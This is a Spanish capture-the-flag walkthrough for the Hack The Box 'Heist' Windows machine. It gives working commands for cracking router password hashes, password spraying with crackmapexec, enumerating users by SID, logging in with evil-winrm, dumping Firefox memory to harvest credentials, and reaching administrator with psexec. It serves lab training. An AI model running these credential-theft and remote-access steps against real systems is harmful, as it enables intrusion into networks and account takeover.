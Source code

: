 ## HTB-Heist
- Maquina: **Windows**
- Level: **Easy**
- IP: **10.10.10.149**

## Herramientas a utilizar:
- nmap
- jhon = John the Ripper
-   https://packetlife.net/toolbox/type7/
-   https://github.com/Hackplayers/evil-winrm
-   https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite
- crackmapexec
- smbmap
- sysinternals
- metaexploit
- psexec.p

```
nmap -sC -sV -o scan_heist.txt 10.10.10.149
```
Encontraremos los siguiente puertos abierto.

|PORT|STATE|SERVICE|VERSION|
|---|---|---|---|
|80/tcp|open| http|Microsoft IIS httpd 10.0
|135/tcp|open|msrpc| Microsoft Windows RPC
|445/tcp|open|microsoft-ds?|

Primero iniciaremos a enumerar por el puerto 80
```
http://10.10.10.149/
```
Aqui tenemos un login, pero si nos fijamos bien, tenemos un acceso de invitado, podemos llegar a
```
http://10.10.10.149/attachments/config.txt
```
Este archivo contiene la configuracion de un router en el cual veremos varios users y password.

|1| secret 5 |$1$pdQG$o8nrSzsGXeaduXrjlvKc91
|----|----|----|
|2| username rout3r password 7 |0242114B0E143F015F5D1E161713 
|3| username admin privilege 15 password 7 |02375012182C1A1D751618034F36415408

Con el primero intentaremos Crakear el password creamos un archivo `hashespass.txt` y en el colocamos: `enable_secret:$1$pdQG$o8nrSzsGXeaduXrjlvKc91` Ahora utilizamos **John the Ripper** y el Direccionario **rockyou.txt**
```
john --wordlist=/usr/share/wordlists/rockyou.txt hashespass.txt
```
Nuestro resultado sera: **stealth1agent**    (enable_secret)

Con los demas iremos al siguiente Web: https://packetlife.net/toolbox/type7/
El resultado sera:

|user| password|
|---|---|
|rout3r| $uperP@ssword
|admin |Q4)sJu\Y8qz*A3?d

Colocamos todos los usuario en **user.txt** y los password en **pass.txt**

Utilizaremos `crackmapexec` con los archivos **user.txt** y **pass.txt**
```
crackmapexec smb 10.10.10.149 -u user.txt -p pass.txt
```

De los resultado de crackmapexec tenemos que:
SUPPORTDESK [+] **SupportDesk\hazard:stealth1agent**


Ahora utilizaremos **smbmap** para ver que tipo de privilegios tenemos con **hazard**
```
smbmap -H 10.10.10.149 -u hazard -p stealth1agent
[+] Finding open SMB ports....
[+] User SMB session establishd on 10.10.10.149...
[+] IP: 10.10.10.149:445	Name: heist.htb
	Disk                                      	Permissions
	----                                      	-----------
	ADMIN$                                    	NO ACCESS
	C$                                        	NO ACCESS
	IPC$                                      	READ ONLY
```

Notamos que solo tenemos acceso **read only** remote **IPC$**
```
rpcclient -U 'hazard%stealth1agent' 10.10.10.149
rpcclient $> lookupnames hazard
```
Nuestro output sera: 
hazard S-1-5-21-4254423774-1266059056-3197185112-1008 (User: 1)
```
rpcclient $> lookupsids S-1-5-21-4254423774-1266059056-3197185112-1008
```
Ahora tenemos el siguiente output
S-1-5-21-4254423774-1266059056-3197185112-1008 SUPPORTDESK\Hazard (1)

Con el SID intentaremos listar los usuarios.
```
rpcclient -U 'hazard%stealth1agent' 10.10.10.149 -c 'lookupsids S-1-5-21-4254423774-1266059056-3197185112-1000'
```
Si todo va bien tenemos una output: S-1-5-21-4254423774-1266059056-3197185112-1000 *unknown*\*unknown* (8)

Por lo que ahora haremos una funcion para ver todo los posible SID y removiendo los unknown.
```
for i in {1000..1050}; do rpcclient -U 'hazard%stealth1agent' 10.10.10.149 -c "lookupsids S-1-5-21-4254423774-1266059056-3197185112-$i" | grep -v unknown; done
```

Con esto veremos 2 usuarios **Chase** y **Jason** los agregaremos a `user.txt`
Utilizaremos `crackmapexec` otra vez con los archivos **user.txt** y **pass.txt**
```
crackmapexec smb 10.10.10.149 -u user.txt -p pass.txt
```
Y veremos que el usuario **Chase:`Q4)sJu\Y8qz*A3?d`**

Utilizaremos **Evil-WinRM**, pero en mi caso particular lo utilice de la siguiente manera
con `gem install winrm winrm-fs colorize stringio`
```
ruby evil-winrm/evil-winrm.rb -i 10.10.10.149 -u SUPPORTDESK\\chase -p 'Q4)sJu\Y8qz*A3?d'
```

Ahora tenemos acceso a heist con el usuario **chase**
Enumeracion y encontramos que en 
```
C:\inetpub\wwwroot> 
```
Existe dos archivos `error.php` y `login.php` 
```
En login.php vemos:
hash: 91c077fb5bcdd1eacf7268c945bc1d1ce2faf9634cba615337adbf0af4db9040
user: admin@support.htb
```
Colocamos el hash en `hash_admin.txt` y utilizamos John otra vez
```
john --format=Raw-SHA256 --wordlist=/usr/share/wordlists/rockyou.txt hash_admin.txt
```
y Esto no funciono 🤷‍♂️

Aqui solo puedo decir que despues de Mucho buscar en internet he intentar y intentar

Volvi Heist con la session de Chase y me puse a buscar en los procesos

C:\Program Files> 
Ejecutamos **Get-Process**

Vi que Firefox se estaba ejecutando.

|408|31|17404|63308|2.17|2768|1| firefox|
|--|--|--|--|--|--|--|--|
|390 | 32|    43244|      75072|      57.30|   **4728**|   1| firefox
|358 |     27|    16364|      37608|       0.58|   6808|   1| firefox
|1151|      70|   132720|     204480|      28.55|   6924|   1| firefox
|343 |     20|     9976|      37300|       0.33|   7052|   1| firefox
    
Por lo que descargue `systeminternal` desde https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite
```
unzip sysinternals-suite
```
Volvemos acceder a heist con el usuario chase y subimos el `procdump64.exe`
```
upload procdump64.exe
.\procdump64.exe -accepteula
.\procdump64.exe -ma 4728 <4728 es el id_proc firefox que encontramos>.
```
Esto genera un archivo **firefox.exe_`fechayhora`.dmp** el cual deberemos descargar.
En nuestro caso fue:
```
download firefox.exe_2102209_003234.dmp
```
Mientras se esta descargado con otra shell vamos hacer la siguiente busqueda.
```
strings firefox.exe_210209_003234.dmp |grep admin@support.htb
```

y con esto veremos password del admin@support.htb el es XXXXXXXXX
actualizamos los archivo user: con admin@support.htb y el pass con XXXXXXXXX
volvemos a probar con crackmapexec
```
crackmapexec smb 10.10.10.149 -u user -p pass
```

Si por alguna razon no tienes el resultado utilizando el proceso de Firefox, puede utilizar el siguiente mentodo.
```
msfconsole
use auxiliary/scanner/winrm/winrm_login
set pass_file /home/r0ok1e/Downloads/htb/machine/heist/pass.txt
set user_file /home/r0ok1e/Downloads/htb/machine/heist/user.txt
set rhost 10.10.10.149
run
```
Y aqui veremos que funciona user/pass chase y el del administrator

Para poder acceder con esta nuevas credenciales utilizaremos `PSEXEC`.
```
locate psexec.p
python3 /usr/share/doc/python3-impacket/examples/psexec.py administrator@10.10.10.149
```

Listo, solo es ir a Desktop del administrator y tenemos root.txt y nuestra flag
